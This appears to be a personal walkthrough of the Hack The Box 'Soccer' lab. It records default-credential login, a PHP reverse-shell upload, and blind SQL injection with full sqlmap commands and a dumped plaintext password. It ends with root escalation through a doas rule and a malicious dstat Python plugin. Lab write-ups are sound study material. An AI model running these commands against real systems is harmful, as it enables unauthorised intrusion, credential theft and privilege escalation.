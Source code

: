 - nmap shows p 80 runs nginx
- aded ip in /etc/hosts for soccer.htb as i tried in browser
- dirbuster to find soccer.htb/tiny
- github gives usn and pd : admin, admin@123
- goto tiny/uploads and upload php reverse shell
- we gain reverse shell
	- whoami is www-data
- we find in /etc/nginx/sites-enabled theres another virtual host
	- we add to /etc/hosts : as its a subdomain we make sure the extra vhost is part of it in /etc/hosts so soc-player.soccer.htb
- goto site
	- **BLIND SQLi**
	- create account
	- login
	- ticket is new for every time you login
		- if we change the number the ticket doesnt match so this is some kind of simple boolean function
		- ticket no. + 'or 1=1'
			- also test 2=1 and another numbers and we see there is no check there
		- in burp suite we add intercept and then check the websocket which has this command and e get a response from client with a response ticket exists (sometimes need to turn off intercept and restart)
		- save to file (boolean.req)
	- pass sqlmap command :
	  **IMPORTANT NEW CODE**
	  - sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --dbs --threads 10 --level 5 --risk 3 --batch
		  - i tried with technique=B for bolean and it did not work
		  - we identify DB soccer_db which will be our target
		  - pass command to check that DB
			- sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --threads 10 -D soccer_db --dump --batch
			- [1 entry] OUTPUT
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+

- **PRIVILEGE ESCALATION WITHOUT SUDO i.e SETUID**
	- SETUID is a unix based security mechanism that allos executables to be run with privileges of file owner.
		- useful for executables that need to access system resources or perform actions that are typically restricted to privileged users, such as changing system settings or accessing other users' files.
		- **CAN BE USED TO PRIV ESC**
	- find files with SUID privileges :
		**NEW CODE**
		- find / -type f -perm -4000 2>/dev/null
			-  we notice /usr/local/bin/doas
			- **WHY is this interesting?!**
				- doas is not common
				- in /usr/local
					- **this is meant to be where admin specifically puts binaries**
						- **and what are binaries?** they are executables
						- so man doas to check what it idoes
							- we see its a BSD command i.e its the BSD version of sudo
								- BSD is another type of OS 
							- **we also see a /usr/local/etc/bin/doas.conf**
		- cat /usr/local/etc/doas.conf
			- output : permit nopass player as root cmd /usr/bin/dstat
		- man dstat
			- dstat - versatile tool for generating system resource statistics
			- EXECUTES PYTHON SCRIPTS
				- we see in man ouput under FILES:
					- FILES
				       Paths that may contain external dstat_*.py plugins:

			           ~/.dstat/
			           (path of binary)/plugins/
			           /usr/share/dstat/
			           /usr/local/share/dstat/
			- as we can see /usr/share/dstat we could add a python script here since we have root priv here (can check sites like GTFObins for this)
				- furthermore it needs to be saved in the format dstat_*.py
				- echo 'import os; os.system("/bin/bash")' > /usr/local/share/dstat/dstat_pwn.py
			- verify plugin is detected my dstat : --list command
				- doas /usr/bin/dstat --list 
					- should find your file pwn there 
			- EXECUTE DSTAT PLUGIN WITH DOAS
				- doas /usr/bin/dstat --pwn (dstat --plugin_name)
					- **WHY /usr/bin/dstat and not just dstat or another path?!**
						- when we did cat /usr/local/etc/doas.conf the output clearly states to use the path
						- **NOTE: the python file I created seems to delete itself after some time so this seems to be timegated**




